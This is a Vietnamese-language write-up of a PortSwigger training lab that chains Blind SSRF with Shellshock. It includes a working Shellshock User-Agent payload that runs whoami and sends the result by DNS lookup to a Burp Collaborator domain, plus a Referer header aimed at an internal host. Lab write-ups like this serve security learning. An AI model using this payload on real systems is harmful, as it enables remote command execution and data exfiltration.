


# Write-up: Blind SSRF with Shellshock exploitation

### Tổng quan
Khai thác lỗ hổng Blind Server-Side Request Forgery (SSRF) kết hợp với Shellshock trong phần mềm phân tích của trang web, sử dụng header `Referer` để gửi yêu cầu tới máy chủ nội bộ tại `192.168.0.1:8080` và header `User-Agent` chứa payload Shellshock để trích xuất tên người dùng hệ điều hành thông qua Burp Collaborator, sau đó submit để hoàn thành lab.

### Mục tiêu
- Thực hiện tấn công Blind SSRF kết hợp Shellshock để gửi yêu cầu tới máy chủ nội bộ tại `192.168.0.1:8080`, trích xuất tên người dùng hệ điều hành, và xác nhận qua Burp Collaborator.

### Công cụ sử dụng
- Burp Suite Community
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Truy cập trang sản phẩm bất kỳ và kiểm tra yêu cầu trong Burp Suite Proxy:
    - Phản hồi: Không có chức năng lấy Api từ các hệ thống khác

2. **Khai thác (Exploitation)**
- Gửi yêu cầu `GET /product?productId=1` tới Burp Intruder.
- Tạo domain trong Burp Collaborator
- Cấu hình payload trong Burp Intruder:
    - Thay đổi header `User-Agent` thành payload Shellshock để trích xuất tên người dùng:
        ```
        () { :; }; /usr/bin/nslookup $(whoami).4x2ppatm4gxvv612t8o2wq8vwm2dq3es.oastify.com
        ```
        
    - Thay đổi header `Referer` để nhắm tới máy chủ nội bộ:
        `Referer: http://192.168.0.1:8080`
    

- Gửi yêu cầu qua Burp Intruder và kiểm tra Burp Collaborator:
    
    - **Phản hồi**: Burp Collaborator ghi nhận tương tác DNS với tên miền `peter-GK6ePM.4x2ppatm4gxvv612t8o2wq8vwm2dq3es.oastify.com`, xác nhận tên người dùng hệ điều hành là `peter-GK6ePM`.

    - **Giải thích**: Lỗ hổng SSRF cho phép gửi yêu cầu tới máy chủ nội bộ (`192.168.0.1:8080`), và payload Shellshock trong `User-Agent` khai thác lỗ hổng Bash để thực thi lệnh `whoami`, gửi kết quả qua DNS tới Burp Collaborator.

- Submit tên người dùng peter-GK6ePM trong lab để hoàn thành:
    

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng Blind SSRF kết hợp với Shellshock để gửi yêu cầu tới máy chủ nội bộ và trích xuất thông tin nhạy cảm qua out-of-band detection.
- Nhận thức tầm quan trọng của việc kiểm tra và lọc các header HTTP như User-Agent và Referer, đồng thời vá lỗ hổng Shellshock trên các hệ thống nội bộ.

### Tài liệu tham khảo
- PortSwigger: Server-Side Request Forgery (SSRF)
- PortSwigger: Blind SSRF vulnerabilities

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác Blind SSRF kết hợp Shellshock, sử dụng Burp Intruder và Collaborator để gửi payload và trích xuất thông tin hệ thống qua out-of-band detection. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 7/2025.*